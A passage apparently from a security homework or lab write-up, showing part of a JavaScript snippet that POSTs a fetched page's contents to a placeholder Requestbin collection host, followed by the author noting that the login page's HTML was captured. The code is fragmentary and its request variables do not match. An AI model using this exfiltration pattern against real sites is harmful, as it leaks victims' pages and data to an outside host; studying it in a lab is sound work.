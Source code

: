 ```jsx
      "status_code": status_code,
      "heading": heading,
      "data": lol
    })

    const options2 = {
      hostname: "Add your own Requestbin link.",
      path: "/vowbecomefemboy",
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
    }
		
		// Send to Requestbin
    const req = https.request(options2)
    req2.write(data)
    req2.end()

  });
})
req1.end()
```

![Untitled](</hw5b/Untitled 19.png>)

There we go, we just got the HTML for the login page!
